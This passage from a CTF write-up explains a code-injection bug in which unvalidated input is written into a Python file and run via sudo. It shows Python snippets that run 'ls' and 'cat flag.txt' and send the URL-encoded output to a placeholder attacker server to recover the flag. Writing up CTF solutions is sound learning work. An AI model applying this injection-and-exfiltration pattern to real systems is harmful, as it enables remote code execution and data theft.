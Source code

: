 The vulnerability is pretty obvious: the `xec` function writes our input, which isn't validated, into a python file, and then executes said file using `sudo -u user python3 <our file>`. 
For example, if our input is

```
print("hello world!")

return 123
```

The Python file will contain:

```
def main():
	print("hello world!")

	return 123
from parse import rgb_parse
print(rgb_parse(main()))
```

The contents of `rgb_parse` don't matter, since `main()`, which contains our code, is always executed no matter what. This gives us complete RCE!
To exploit the RCE, we'll run commands using `subprocess.run` to get the output, URL encode it, and then send it to a server we control using `urllib.request.urlopen`, which is a built-in function in Python that sends HTTP requests. For example, to execute `ls`, we use the following code:

```python
from urllib.request import urlopen
import subprocess

ls_out = subprocess.run(["ls"], capture_output=True, text=True,).stdout.strip().replace("\n", "%0a").replace(" ", "%20")
urlopen("<attacker's site>/{}".format(ls_out))
```

In our server, we get a request to:

```
<attacker's site>/app.py%0aflag.txt%0atemplates
```

Great! The flag is in `flag.txt`. Let's `cat` it:

```python
from urllib.request import urlopen
import subprocess

ls_out = subprocess.run(["cat", "flag.txt"], capture_output=True, text=True,).stdout.strip().replace("\n", "%0a").replace(" ", "%20")
urlopen("<attacker's site>/{}".format(ls_out))
```

Awesome! We got the flag:

```
https://<attacker's site>/ictf%7Bd1_color_picker_fr_2ce0dd3d%7D
```

# Summary
Playing this CTF was very fun! I learned a lot (especially from the ropity challenge :)), and the challenges were very creative. Thanks for reading!

